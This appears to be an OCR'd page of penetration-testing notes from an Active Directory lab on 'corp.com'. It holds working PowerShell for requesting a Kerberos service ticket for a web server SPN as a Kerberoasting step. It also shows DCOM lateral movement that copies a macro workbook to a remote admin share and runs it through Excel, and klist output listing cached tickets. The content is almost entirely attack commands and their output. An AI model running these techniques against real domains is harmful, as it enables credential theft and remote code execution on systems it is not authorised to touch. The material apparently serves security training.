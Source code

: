 ## Request service ticket

```powershell
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList 'HTTP/CorpWebServer.corp.com'
```

## DCOM execution

```powershell
$com = [activator]::CreateInstance([type]::GetTypeFromProgId("Excel.Application","192.168.1.110"))
$LocalPath = "C:\Users\\jeff_admin.corp\myexcel.xls"
$RemotePath = "\\192.168.1.110\c$\myexcel.xls"
[System.IO.File]::Copy($LocalPath, $RemotePath, $True)
$Path = "\\192.168.1.110\c$\Windows\sysWOW64\config\systemprofile\Desktop"
$temp = [system.io.directory]::createDirectory($Path)
$Workbook = $com.Workbooks.Open("C:\myexcel.xls")
$com.Run("mymacro")
```

## Dumping Kerberos Tickets (klist)

Display all cached Kerberos tickets for the current user:

```powershell
PS C:\Users\offsec.CORP> klist
Current LogonId is 0:0x3dedf
Cached Tickets: (4)
#0> Client: Offsec @ CORP.COM
Server: krbtgt/CORP.COM @ CORP.COM
KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent
name_canonicaliz
Start Time: 2/12/2018 10:17:53 (local)
End Time: 2/12/2018 20:17:53 (local)
Renew Time: 2/19/2018 10:17:53 (local)
Session Key Type: AES-256-CTS-HMAC-SHA1-96
Cache Flags: 0x1 -> PRIMARY
Kdc Called: DC01.corp.com
#1> Client: Offsec @ CORP.COM
Server: HTTP/CorpWebServer.corp.com @ CORP.COM
KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
Ticket Flags 0x40a50000 -> forwardable renewable pre_authent ok_as_delegate
name_cano
Start Time: 2/12/2018 10:18:31 (local)
End Time: 2/12/2018 20:17:53 (local)
Renew Time: 2/19/2018 10:17:53 (local)
Session Key Type: RSADSI RC4-HMAC(NT)
Cache Flags: 0
Kdc Called: DC01.corp.com
...
```

